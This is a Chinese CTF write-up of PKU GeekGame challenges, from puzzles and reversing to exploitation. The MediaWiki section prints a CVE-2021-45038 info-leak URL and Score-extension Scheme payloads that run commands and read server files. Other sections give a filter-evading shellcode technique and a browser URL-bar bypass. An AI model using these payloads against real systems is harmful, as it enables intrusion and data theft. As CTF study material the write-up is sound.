








# WriteUp

## 签到
点开附件，发现 flag 被加密成字符了，尝试复制出来会复制到背景的 “别急 别急” ，不过可以反复点击 “别急 别急” 中间的区域选中字符就可以复制了，然后粘贴出来会得到：
``` text
fa{hns4PaigGeGm!
lgTak__lyn_ekae}
```
题目告诉我 flag 的格式形如 `flag{...}` ，那很明显可以看出 flag 就是上下两行交替排列，重新排一下就能得到 flag 为 `flag{Thanks_4_Playing_geekGame}` 。

## 小北问答 · 极速版
- 我有一个朋友在美国，他无线路由器的 MAC 地址是 d2:94:35:21:42:43。请问他所在地的邮编是多少？  
不会。
- 在第一届 PKU GeekGame 比赛的题目《电子游戏概论》中，通过第 `x` 级关卡需要多少金钱？  
直接去找第一届的 git 仓库的源码，在 [这里](https://github.com/PKU-GeekGame/geekgame-1st/blob/7e5f12572d20cf7c0dcf48fcc7be330a405a892f/src/pygame/game/server/libtreasure.py#L19) 可以找到答案。
- 每个 Android 软件都有唯一的包名。北京大学课外锻炼使用的最新版 PKU Runner 软件的包名是什么？  
首先在搜索引擎搜索 PKU Runner，在[这里](https://github.com/pku-runner/pku-runner.github.io/blob/android/README.md)找到 PKU Runner 的 apk 包，然后使用 `aapt` 命令分析该 apk 包即可：

- 视频 `bilibili.com/video/BV1EV411s7vu` 也可以通过 `bilibili.com/video/av_____` 访问。下划线内应填什么数字？  
非常巧，当年 b 站改链接格式的时候我就在知乎上看过这个问题，印象非常深刻 `mcfx` 给出了一个[转换器](https://www.zhihu.com/question/381784377/answer/1099438784)，于是直接在知乎上搜索，然后把代码扒下来跑跑就行。

- 我刚刚在脑海中想了一个介于 `l` 到 `r` 之间的质数。猜猜它是多少？  
这个题大概率是随机 `[l, r]` 内的一个质数，因此我也随机输出一个，反复试了几次发现区间内的素数个数不会超过 10 个，因此期望 10 次就能过。

- 支持 WebP 图片格式的最早 Firefox 版本是多少？  
在搜索引擎搜索 Firefox 的版本，然后找到了 wikipedia 上的 [Firefox版本列表](https://zh.wikipedia.org/wiki/Firefox%E7%89%88%E6%9C%AC%E5%88%97%E8%A1%A8) 条目，`Ctrl+F` 搜索 webp 直接就能找到对应的版本号为 `65.0` 。

- 访问网址 http://ctf.世界一流大学.com 时，向该主机发送的 HTTP 请求中 Host 请求头的值是什么？  
在浏览器先 `f12` 选择 `Network` 标签，然后输入上述网址，就可以找到对应 HTTP 请求的 Host 请求头：  


- 北京大学某实验室曾开发了一个叫 gStore 的数据库软件。最早描述该软件的论文的 DOI 编号是多少？  
在 google scholar 搜索 gStore，选择第一个条目（看起来最早）  
  
然后可以直接在网页上找到 doi 号  
  

最后如果需要获得满分，需要写一段脚本，我有一个题不会做，同时还有个题需要猜，因此期望一百来次就能通过本题，脚本附在 `./attachment/xiaobei/run.py`

## 编原译理习题课
这道题碰巧当年在知乎上也看过类似的科技，因此本题大部分都是通过搜索引擎得到的答案。
### flag1
flag1 需要让 g++ 编译出的程序很大，由于 g++ 编译的时候首先要对代码进行预处理，会进行宏展开，因此只需要利用宏展开搞搞事情即可：
``` C++
#include <cstdio>
#include <cmath>
#include <iostream>
using namespace std;
#define A 1,1,1,1,1,1,1,1,1,1
#define B A, A, A, A, A, A
#define C B, B, B, B, B, B
#define D C, C, C, C, C, C
#define E D, D, D, D, D, D
#define F E, E, E, E, E, E
#define G F, F, F, F, F, F

int a[10000000] = {G};

int main(){

}
```
上述代码利用宏展开，用很少的代码在 `.data` 段存储了很多信息，因此会使得编译出的程序很大。
### flag2
flag2 需要让 g++ 输出的报错信息很长，知乎上有人干过这种事情，因此上知乎搜索。  
虽然没搜索到当年印象里的问题，但还是搜索到了一个[回答](https://www.zhihu.com/question/422185141/answer/1487528005)。  
``` C++
template<class T>class L{L<T*>operator->()};L<int>i=i->
```
试了一下发现没问题，于是就拿到了 flag2 。
### flag3
直接 google `g++ crash`：

第一个[条目](https://gcc.gnu.org/bugzilla/show_bug.cgi?id=54080)里的代码直接就能用。  
``` C++
template <class T>
class vector
{
};

template <template <typename U> class Container,
	 typename Func
	 >
vector<int> foo(const Container<int>& input, const Func &func)
{
}

template <template <typename U> class OutType,
	 typename Func1,
	 typename FuncRest
	 >
auto foo(const vector<int> &input, const Func1 &func1, const FuncRest funcrest) -> decltype(foo<vector>(foo(input, func1), funcrest))
{
	return;
}

int main()
{
	vector<int> v1;
	foo<vector>(v1, 1, 1);
}
```

## Flag Checker

### flag1
首先解包 `test.jar` ，会拿到 `GeekGame.class`，然后使用 `javap` 反汇编该文件尝试逆向。（反汇编得到的文件见 `./attachment/flag_checker/flag1.txt`）

在阅读中间代码的过程中，可以找到一个 `// String Correct`，表明此处是判断是否正确的代码。  
针对此处附近逆向，发现输入的字符串先进行 `Base64` 编码，然后再进行 `rot13()` 变换，最终和一个常量字符串进行比较，如果相同就输出 `Correct` 。那很明显只需要对该字符串进行逆向 `rot13()`变换再 `Base64`解码即可拿到 flag1。

经过中间代码阅读，`rot13()`函数对字符串进行的变换即 `[A-M]<->[N-Z] [a-m]<->[n-z] [0-4]<->[5-9]`，于是对应写了一个 python 逆变换代码（见`./attachment/flag_checker/calc_flag1.py`），随即经过 `Base64` 解码即可拿到 flag1 。

### flag2
注意到中间代码有一段奇怪的 unicode 字符串，解码后发现是一段 javascript 代码（见 `./attachment/flag_checker/flag2.txt`），然后进行了一番逆向，它的大致行为就是里边有一个 `list l` ，然后把这整个函数当成一个 `string s` ，然后去取 `l` 里的数 `x` 并把 `s[x]` 拼起来就能得到 flag2。

由于对 javascript 并不熟悉，一开始我并不知道它里边的 `checkflag2+ ` 到底能返回什么，然后猜测可能是上边那个意思（之前在一些地方见过 javascript 可以有这种科技，尽管现在还不明白为什么可以用这种方式实现一种奇怪的自引），对前几个数试了一下得到了 `flag` ，于是信心大增，然后写个 python 代码（见 `./attachment/flag_checker/calc_flag2.py`）翻译一下即可拿到 flag2 。

## 智慧检测器

### flag1

flag1 需要我们让游戏崩溃。

尝试阅读了一下源代码，首先发现了几个信息：起点在最底层，终点在最高层；起点一定邻接一条边界，并且终点一定在起点邻接的边界的对面。同时注意到每次输入可以输入若干次移动（例如输入`SE`就会先往下走一步再往右走一步），它会逐个执行。

说实话源代码我还真没看出什么端倪，于是尝试手玩测试这个代码是否 robust ，直到某一步我移动到了墙上。

然后我反复测试，发现如果一次只输入一步就不会触发 bug ，但是一旦我一次输入两步，且第一步合法（合法的定义是我当前确实能执行该移动），那不论第二步是否合法都会被执行。然后我仔细阅读源代码发现了这么一句话：

``` python
CurPos = NewPos
```

它的代码逻辑是，首先根据你当前的移动更改 `NewPos` ，然后根据 `NewPos` 还有地图的信息判断你的移动合不合法，如果合法的话就会执行上边的语句，不合法就跳过该移动。

于是我们触发 bug 的方式就是，第一步先输入合法，然后触发这句话，使得 `CurPos` 和 `NewPos` 指向同一个位置（如果第一步就直接不合法了就不会触发这句话）。第二步的移动会先更改 `NewPos`，那此时同时也会更改 `CurPos` ，因此即使后边判断出了 `NewPos` 不合法，我们也已经更改了 `CurPos` 从而实现了穿墙。

那知道这个 bug 之后，我们实际上只需要在第一关先任意移动一下再上楼（因为第一关只有一层），那就会导致 `CurPos` 指向了一个地图边界之外的地方从而触发一个 `IndexError` ，于是就能拿到 flag1 。

### flag2
flag2 要求我通关整个游戏。首先因为 99 步的步数限制，且第三关有 80 层，光是上楼就要占去 80 步的步数，同时我还需要花 55 步从迷宫的一端移动到迷宫的另一端，这显然是不可能完成的事情，因此我们一定需要利用上边提到的漏洞。

注意到代码中判断步数限制的逻辑：

``` python
CurPos = NewPos
...
MoveCount += 1
if MoveCount>MAX_MOVES:
    print("Too many moves")
    sys.exit(0)
```

它在 `CurPos = NewPos` 后边，意味着我们唯有进行一个合法的移动才会被统计入总步数。那如果我先执行一个合法的移动再执行一个不合法的移动，我们的 `MoveCount` 应该会增加 `1` ，但实质上我们走了两步（因为通过 `NewPos` 的更改实现了 `CurPos` 的更改），因此如果我们合理利用这一特性，就能在上楼的途中同时完成穿梭迷宫的任务，那上述的不可能就将成为可能。

然后我开始手玩。首先策略肯定是先不断移动然后紧跟一个上楼，同时需要保持自己的移动不断朝着终点的那一侧（因为终点生成在起点的对侧），然后到了顶层后再移动到终点。但我很快发现了一个问题，尽管我知道终点在我的对侧，但我并不知道终点具体的位置。 比如下述情况：
``` text
#############
#           #
#           E
#           #
#           #
#           #
#@          #
#           #
#           #
#           #
#           E'
#           #
#############
```
我目前在中间，但终点可能生成在上边的 `E` 也可能生成在下边的 `E'` ，因此我最初的策略是尽量移动到中间，这样期望比较优秀，但问题是我经常在上楼的时候遇到下边的情况：
``` text
    X
   @X
    X
```
假设终点在右边，但是右边目前被挡住了，现在我只能选择往下或者往上走，但我并不知道终点的位置，因此我无法决定应该往下还是往上走，这样相比于知道终点位置的情况，期望就会浪费更多的步数。因此我试了几个小时，甚至其中很多次是因为地图太大没看到终点无脑往上走然后程序崩掉了，但没有一次成功接近终点的哪怕十步之内。

这时我突然在第一层往下走了一步，然后突然发现我直接找到了终点，我当时还非常疑惑为啥我直接就能找到终点，后来发现因为此时我的 `z` 坐标是 `-1`，在 python 中 `-1` 就表示最后一个元素，因此就恰好指向了终点所在的层。因此代码在展示地图的时候就会把最后一层的终点位置给标示出来。我当时以为我可以直接通过一步往下走直接到最后一层，但突然发现我无论如何也无法移动了（理由是 `z=-1` 此时无论我上下左右移动都无法导致我的 `z` 正常，因此上下左右移动都非法，而我也无法上楼，因为目前我并不一个 `+` 上），然后当时也没想太多就重开了。

后来突然发现还有 `R` 的操作，之前一直觉得这步操作没什么意义于是就没考虑，但联系到刚才误走到最后一层的经历猛然醒悟，我可以通过先走到最后一层再 `R` 获取终点的位置，这样我在往上移动的过程中就更有方向性了，上边提到的情况我就不用再纠结到底是往上还是往下，总之朝着终点的方向移动同时上楼就行了，于是试了几次就拿到了 flag2 。

## 企鹅文档

### Phase1

首先尝试一下抓包，按 `f12` 选择 `Network`，刷新一下发现发过来了一堆包。我猜测可能这整个表格当成一个包发过来了，因此数据可能能拿到，而具体选择展示还是不展示是 `javascript` 干的事情。于是我在 `Network` 旁边的搜索里搜索表格内容 `通过以下链接` ，然后确实找到了一个数据包：


然后我把 `response` 复制了出来（`./attachment/qqdoc/response1.txt`），然后从这一堆抽象的数据中艰难看出了一个 pattern ，形如：
``` json
{
    "1":{"0":5,"2":[1,"h"],"3":1},
    "2":{"0":5,"2":[1,"t"],"3":1},
    "3":{"0":5,"2":[1,"t"],"3":1},
    ...
}
```
上边大概的意思就是：第 1 行的内容是 `h`，第 2 行的内容是 `t`，第 3 行的内容是 `t`...  
然后大概眼看了一下就得到了一个网址：https://geekgame.pku.edu.cn/service/template/prob_kAiQcWHobs ，发现不太对。

接着我又发现，上边的 pattern 只进行到了第 60 行，但网页上显示表格有 73 行。于是我猜测可能是这个包太大了，在这里截断了，可能还发了别的包。于是我又尝试继续查询包，这次我搜索最后一行的表格内容 `机密flag链接` ，又能找到一个 `response` （`./attachment/qqdoc/response2.txt`）。我把两段拼起来得到了下一阶段的网址：https://geekgame.pku.edu.cn/service/template/prob_kAiQcWHobsBzRJEs_next

### Phase2

网页上给了一个压缩包，解压后是一个 `har` 文件，搜索之后发现可以丢到 chrome 的 `Network` 里打开。

打开之后发现这应该就是提示给出的文档对应的所有包。于是我们故技重施，再次搜索 `below is your flag`，拿到了一个数据包。然后注意到页面给出的提示，它的文档利用黑块来标识出我们需要的flag ，那我们需要分析的应该就是哪些数据块被涂黑了哪些没有被涂黑，也就是哪些方格是有数据的，而哪些没有。

我们来看文档的前几个方格的描述：
``` json
{
    "24":{"0":1,"3":1},
    "25":{"0":1,"3":1},
    "26":{"0":1,"3":1},
    "34":{"0":1,"3":1},
    "35":{"0":1,"3":1},
    "37":{"0":1,"3":1},
    "38":{"0":1,"3":1}
    ...
}
```
表明 `24, 25, 26` 号方格是有内容的，`34, 35, 37, 38` 号方格是有内容的，而这些方格的编号恰好对应了提示给出的 `f` 字符的前两行对应的方格。  
接下来就是需要找出编号是如何对应方格的，首先一行的方格应该是顺序编号的，因为 `f` 的第一行一共三个连续的方格，同时对应的编号为 `24, 25, 26`，而 `f` 的第二行形如 `.##.##..`，也恰好对应了 `34, 35, 37, 38` 缺了一个 `36`。

我起初以为 `24` 就是第二行的第四个方格，但后来发现不是这么回事，然后发现，`f` 的第一行的最后一个有数据的格子到 `f` 的第二行的第一个有数据的格子之间差了 7 个空格子，而刚好 `26+7+1=34` ，因此它编码格子的方式就是一行一行往下数，同一行的一个格子一个格子往下编号，下一行的格子编号紧接着上一行的编号。

于是仿照这个逻辑我写了对应的 python 代码（`./attachment/qqdoc/process.py`）来处理数据（`./attachment/qqdoc/data.in`），然后在命令行读出对应的 flag 。

## 给钱不要

### flag1

首先我们查看网页源代码，发现按下 `Go` 之后它会执行下面的代码：
``` Javascript
function go() {
    location.href = document.getElementById('filename').value + '.jpg';
}
```

然后获取 flag1 的方式是，需要在框内输入一段能被 chrome 地址栏解析为 `query` 的文本，并且在 YOU 酱按 `Go` 之后跳转到的页面的 `title` 标签为 `GIVE-ME-FLAG-1 #=_= @!+!@ ^~^ %[*.*]%` 。

首先思路是在本地开启一个 `http` 服务器，然后输入链接诱导 YOU 酱访问我们的服务器下的一个 `html` 文件，并且该文件的 `title` 标签恰好为上述 magic string 。但是如果单纯输入 ip 地址， chrome 地址栏会把它解析为 `url` ，但可以通过 `a:b@ip` 的方式绕过 chrome 地址栏的检查，同时也可以访问本地的 `http` 服务器。

通过 [hfs](https://www.rejetto.com/hfs/) 在本地开启服务器，在服务器的根目录下上传 `1.html`（`./attachment/xss/1.html`），输入字符串 `http://a:b@ip:80/1.html#` 即可获取 flag1 。我之前一直想着怎么让一个 `jpg` 文件展示出 `title` 为给定属性，但后来突然想到可能可以屏蔽 `.jpg` ，然后发现 url 可以加入 `#` 字符，后边的字符会用于浏览器的提示而不会被 url 解析（相当于注释）。

有趣的是，如果上述的字符串改为 `http://aa:b@ip:80/1.html` 那就无法通过 chrome 的地址栏检查，似乎 chrome 的逻辑是并不认为单字符的用户名算用户名（这部分当时并没有看源码，fuzz 出来的）。

### flag2

这部分我并没有通过。

获取 flag2 的方式是，需要让当前页面的 `flag` 信息流出并且成为 `title` 属性，然后才能被我们获取到。除了通过 javascript 代码我并不知道还有其他的方式能完成这项任务。

而我们确实也可以输入 scheme 为 `javascript` 的 url ，同时我们需要让我们输入的内容绕过 chrome 的地址栏检查，使其不能把我们输入的内容识别成 `url` 。而这部分我看了 chrome 解析的源码：如果一个 url 以 `javasript:` 开头，并且后续不出现 `;=()."`，就能绕过检查。但我无论如何也无法构造出代码不使用这些符号。我能做到的最好的情况就是只是用 `()` ，即把我需要注入的 javascript 代码进行 unicode 编码然后调用 `eval()` 函数，这样就可以做到只用 `()` ，但如何更进一步我就再也不会了。

## 私有笔记

### flag1
首先访问目标网页，然后它提示我们通过 MediaWiki 的 cve 来做这个题。

首先查看当前 MediaWiki 的版本： `1.34.4` 。 我们需要的 flag1 就在根目录下的 `Flag` 文件里。

直接在搜索引擎里搜索 `MediaWiki cve` ，通过该[网页](https://www.cvedetails.com/product/4125/Mediawiki-Mediawiki.html?vendor_id=2360)的 `Gain Information` 条目，我们能找到编号为 `	CVE-2021-45038` 的 CVE 。通过 cve 对应的 [reference](https://phabricator.wikimedia.org/T297574)，我们访问 `index.php?action=rollback&from={{:Flag}}` 就能查看 `Flag` 页面对应的内容，从而拿到 flag1 ：

```
回退失败
跳到导航跳到搜索
无法回退[[User:You can use the following username and password to login:

User name: Flag1
Password: flag{insecure_01d_mediavviki}
Try RCE to find Flag 2.|You can use the following username and password to login:

User name: Flag1
Password: flag{insecure_01d_mediavviki}
Try RCE to find Flag 2.]]（[[User talk:You can use the following username and password to login:

User name: Flag1
Password: flag{insecure_01d_mediavviki}
Try RCE to find Flag 2.|讨论]] | [[Special:Contributions/You can use the following username and password to login:

User name: Flag1
Password: flag{insecure_01d_mediavviki}
Try RCE to find Flag 2.|贡献]]）对首页的编辑，其他人已经编辑或者回退了该页。
```

### flag2

flag2 需要 RCE ，我在查询了很长一段时间的 CVE 无果后，突然想到它的版本页上提示它安装了别的扩展程序，于是我把 `Score` 放到搜索引擎里查询，立马就找到了它背后隐藏着一个严重的 CVE ，同时网站上安装的版本恰好是含有漏洞的版本。

具体是在这个[链接](https://phabricator.wikimedia.org/T257062)，它展示了执行 scheme 代码同时把输出渲染为图片的 caption 的方法：  
例如我们新建一个页面，然后在页面里写
``` text
<score> \new Staff <<{c^#
(number->string (system "/bin/false"))
}>> </score>
```
我们会得到这样的输出：



`256` 即 `\bin\false` 输出的结果。

因此我们可以构造这样的 scheme 代码来访问文件系统：
``` scheme
(object->string ((lambda (x) (readdir x)) (opendir "/")))
```
就能读取 `/` 文件夹下的第一个文件：



访问第二个文件即：
``` scheme
(object->string ((lambda (x) (readdir x) (readdir x)) (opendir "/")))
```

输出：



虽然这个方法比较暴力，但还好 `flag2` 恰好在根目录下，然后我们再用下边的 scheme 代码一个字符一个字符读取 `/flag2` 即可：
``` scheme
(object->string ((lambda (x) (read-char x)) (open-input-file "/flag2")))
```

## 简单题

这道题我一开始以为是需要 rop attack ，但发现它的 load 代码所有保护都开启了，也不知道怎么不用 `mov` 和 `push` 指令单纯用 `ret` 实现，所以一开始不太会做这个题。  
但是等提示放出的时候才发现好像完全不需要这么做。

具体来说，它的检查即将机器码反汇编，然后检查指令种类。  
反汇编的过程即一个前缀解码的过程，首先匹配第一个能得到指令的前缀的编码，此时我们就能知道对应指令的长度，再往后取出该指令，进行译码。如果这中间出现了问题，比如无论往前找多少个字节都找不到一个合法的指令，或者是在拿到指令后续的译码出现问题，会导致当前字节不合法，此时它会把当前字节当成一个数据 即 `.byte xx` ，然后跳过当前字节继续去找后边的字节。

例如：

``` asm
e9 01 00 00 00
```

反汇编器看到 `0x9e` 会识别得到 `jmp` 指令，那就会把后边的四个字节都识别为 `jmp` 指令的一部分，后边以小端序存储一个四字节数 `addend` 就表明需要让 `%rip += addend` ，得到跳转后的指令地址。

那实际上为了让它只能反汇编得到一种指令，我们可以每一句都用 `jmp` 指令，又由于 `jmp` 指令是一条跳转指令，我们可以让它跳转到我们给定的代码的中间，并注意到 `jmp` 指令后边有四个字节可以操作，我们可以在里边写任意的不超过四个字节的指令。因此在反汇编时，由于所有的指令都要 `jmp` 指令包裹起来了，所以反汇编只能检测到一种指令；而在真正执行的时候，我们可以通过 `jmp` 指令跳转到被反汇编误认为的 `jmp` 指令的中间，从而执行我们想要的指令。

最后由于字节长度的限制，所以许多地方要进行处理，比如我们不能使用 `movq` 而需要使用 `movb` 等。但这道题要求并不多，我们只需要通过 `movb` 指令把 `"/flag.txt"` 移动到栈内，然后调用 `syscall` 指令完成系统调用取出内容即可。汇编代码见 `./attachment/simple/code.s` ，通过 `gcc` 得到的机器码见 `./attachment/simple/code.asm` ，转换代码见 `./attachment/simple/gen.py` 。

## 编原译理习题课 · 实验班

### flag1

首先 rust 的特性就是安全，因此在 safe rust 中，理想状态下代码只要通过了静态检查就一定不会崩溃/出现未定义行为。  
因此如果能够造出相应代码那一定是 rust 的编译器写 bug 了。

于是我就尝试去 [rust-compiler](https://github.com/rust-lang/rust) 的 Issue 界面搜索 `segv` ， `segmentation fault` 之类的东西，但搜出来的代码好像都通不过。于是就扔了。

等放提示之后根据提示给出的页面找到了一个 [buffer overflow](https://github.com/rust-lang/rust/issues/82282) 的漏洞，然后把网页给出的代码交了一下就拿到了 flag1 。

### flag2

我找了半天与权限有关的 cve 但并没有什么结果，所以就放弃了。

## 381654729

这道题需要我们找出一个数，满足它在十六进制下前 `1` 位是 `1` 的倍数，前 `2` 位是 `2` 的倍数，... ，前 `n` 位是 `n` 的倍数。

那思路也很简单，我们考虑从第 `1` 位到第 `n` 位，一位一位填这个数。首先后边填的数不会对前边已经满足的条件产生影响，也就是说如果第 `1` 位到第 `i` 位都满足条件，那么无论后边我填什么数，都不会影响这已经填好的 `i` 位对应的限制的成立；同样如果第 `i` 位我填了一个数，使得前 `i` 位已经不是 `i` 的倍数了，那我后边无论怎么填，都不可能得到一个满足条件的数。但是要注意的是，并不是前 `i` 位合法就一定能得到一个合法的答案，有可能因为第 `i` 位填了一个错误的数导致前 `j` (`j>i`) 位无法满足条件，因此我们需要写一个搜索，同时利用上边发现的性质剪枝。

对于状态数的分析的话，在第 `i` 位我也就能填 `0~f` ，由于需要是 `i` 的倍数，因此我能填的数大概是 $\lceil16/i\rceil$ 个数。因此对于前十六位，一共的状态数大概是
$$\frac{16^{16}}{16!}$$

``` python
>>> import math
>>> (16 ** 16) / (math.factorial(16))
881657.9515664614
```

对于后边的数位的选择就是 `O(1)` 的，所以随便写个搜索就能跑出来。代码见 `./attachment/magic/calc.py`

## 乱码还原

### flag1
首先查看代码，对于 `flag1` 它把输入的 `flag` 通过 `Encrypt()` 函数转为一堆汉字，然后再把汉字对应的 unicode 字符转成日语，给出最后转换出的日语，求解一开始的 `flag1`。

首先注意到 `Encrypt()` 函数是可逆的，它也直接给出了逆过程 `Decrypt()` ，但是由于输出的是汉字，对应的 unicode 转成日语中间势必就会丢失一些信息，比如某个前缀它就是找不到对应的日语编码，此时我猜测它就会跳过一个字节然后继续找。因此我们拿到 `flag1.enc` 后，我们要想逆向得到原始的汉语，势必就需要找到丢失的字节信息。

那基本的思路还是搜索，首先先把它给出的日语先强行转成汉语（此处也有可能会丢失一些字节），但这样起码可以拿到一个一定在初始的汉字串的一个子序列（这里其实可能会解码出一些不在字符集里的汉字，但好像给出的两个 flag 都没发生这种情况，我也就没管了），作为我们搜索的一个 `guide` 。我们搜索的时候首先尝试插入 `guide` 的字符，然后再尝试当前是否丢失了字符并从字符集中枚举。

接下来就是剪枝，由于转译的过程依然是前缀的，也就是后边插入的字符不会对前边已经转译的字符产生影响；同时如果当前已经转译的字符发生了错误，后边不管添加什么字符都不能弥补。于是我们利用这个性质剪枝，需要保证每次加入一个字符后，得到的汉字串经过转译之后能得到答案日语串的一个前缀。这样稍微写一个搜索就能直接通过 flag1 。

### flag2
相比于 flag1 ，这部分是把 flag 先进行一堆 Base64 加密，得到一个很长的串，然后再经过 flag1 的变换。由于 Base64 肯定是可逆的，因此我们还是尝试第一问的思路，先把日语串转成汉字串，再进行解密。

但直接尝试第一问的思路是行不通的。理由是，汉语串到日语串到映射并不是一个单射；由于这个映射存在信息丢失，在 flag1 中可能这个问题并不显著，因为需要解码的串不长；但在 flag2 很长的日语串下，在若干位都存在着若干种填法，使得得到的汉字串经过解码都能得到我们的日语串。我也是在我的搜索代码跑了一整晚才发现这个严峻的问题。

不过我们进一步分析 `Decrpyt()` 函数，它会进行 AES 解密，然后再进行 utf16le 编码解码。考虑我们的原文是 Base64 加密后的，一定都是 ASCII 码，因此在 utf16le 编码后，必然都是偶数位在 `0~255` 中，而奇数位都是 `0` 。同时 AES 解密有个特性，即分组加密。大概意思就是一个位置的不同会影响它所在的组加密之后整体的不同。我在 python 里大概测试了一下，发现第 `x` 位不一样会影响第 `x` 附近的 `16` 位不一样，以及开头的 `0~15` 位不同。但有这个性质也已经足够了。

我们可以进一步加强我们搜索的剪枝，满足我在枚举汉字串的时候，不仅需要转译的日语串是答案的前缀，还得该汉字串进行 `Decrypt()` 的时候，在 `AES` 解码后，已经 **无法被更改的部分** （指从第 `16` 位开始，到把靠近尾部的部分，因为尾部一段可能会有问题所以需要去尾）需要满足我们的 pattern （即偶数位是 `0~255` ，奇数位是 `0` ）。加入这个剪枝之后，那些可以存在多种可能的汉字位就只会剩下一种可能，那基本整个过程就是线性的了。此部分代码见 `./attachment/buddha/calc.py` 。

最后拿到真正的汉字串之后，我们再进行对 Base64 解码的搜索就可以了，这部分就随便搜搜就 ok 。反正至多也就是 `2^{20}` 个状态（因为 a85encode 跟另外四种不兼容，因此一次最多有 `4` 种可能）。

## 奇怪的加密

### flag1

首先这个题是要猜一个置换 $\sigma$ ，把第一个字母 $x_0$ 进行变换 $\sigma^0(x_0)$ ，第二个字母 $x_1$ 进行变换 $\sigma^1(x_1)$ ，... ，第 $n$ 个字母进行变换 $\sigma^{n-1}(x_{n-1})$ 。 给出变换后的密文，求原文。

第一个 flag 给出了一篇文章，然后由于一个置换可以拆成多个轮换，轮换之内的字母可以互相变，但轮换之间的字母是不能互相变的。 比如 `a` 和 `z` 在一个轮换内，那就存在一个 $k$ 满足 $\sigma^k(a)=z$ ，但如果不在一个轮换内就一定不存在这样的 $k$ 。那由于它的变换是保证大写映射到大写，小写映射到小写的，因此文章里所有的单字母单词一定是与 `a` 在一个轮换内的。

然后我尝试了一下输出了一下每个单字母单词在轮换内对应的位置，然后枚举了一下 `a` 所在的轮换的大小发现应该是 22 。（首先一共至少有 20 个字母跟 `a` 一个轮换，然后再枚举轮换大小，如果在某个轮换大小下相同的字母在轮换内对应的位置也相同，那就表明确实是这个轮换大小）。同时得到了位置也顺便得到了这个轮换到底是谁指向谁。然后还剩下四个字母随便试试就能试出最后的轮换。相应代码在 `./attachment/weird/calc1.py` 里（不能直接跑出来 key ，因为剩下有几个位置是我手玩的），同时解码器在 `./attachment/weird/decode.py` 里。

